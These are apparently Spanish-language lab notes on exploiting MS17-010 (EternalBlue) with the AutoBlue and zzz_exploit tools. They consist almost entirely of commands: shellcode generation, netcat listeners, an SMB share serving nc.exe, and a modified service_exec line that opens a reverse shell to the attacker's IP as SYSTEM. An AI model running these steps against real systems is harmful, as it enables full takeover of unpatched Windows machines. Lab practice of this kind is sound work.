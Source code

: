 ** Autoblue Github **
https://github.com/3ndG4me/AutoBlue-MS17-010
>Comprobar named_pipes
>`python eternal_checker.py 10.10.10.40`
>Generar shellcode
>Creará una shellcode de 32 y 64 bits, pedirá LHOST y puertos para 32 y 64 bits.
>`./shell_prep.sh`
>Sesiones en netcat para 32 y 64 bits
>`rlwrap nc -nlvp 4646`
>`rlwrap nc -nlvp 4545`
>Ejecutar eternalblue
>`python eternalblue_exploit7.py 10.10.10.40 shellcode/sc_all.bin`
>Devuelve sesión por netcat con permisos de nt_authority/system

** zzz_exploit github **
https://github.com/worawit/MS17-010/blob/master/zzz_exploit.py
>Chequeamos posibles named_pipes ejecutando desbordamiento de bufer
>`python checher.py 10.10.10.40`
> SI todos los named_pipes dan access_denied, modificar el archivo cheker.py introduciendo las credenciales (si las tenemos).
> Sobreescribir el archivo zzz_exploit.py
> Introducir credenciales si las tenemos.
> función smb-pwn: 
> * comentar la creación del fichero .txt
> * descomentar service_exec
> * cambiar service_exec a:
> * service_exec(conn, r'cmd /c \\<own_ip>\smbFolder\nc.exe -e cmd <own_ip> 443)

> Además debemos tener un servidor SMB compartiendo el recurso nc.exe
> `impacket-smbserver smbForder $(pwd) -smb2support`
> Poner en local el puerto 443 en escucha.
> `rlwrap nc -nlvp 443`
> Ejecutar zzz_exploit.
> `python zzz_exploit.py 10.10.10.93 samr`


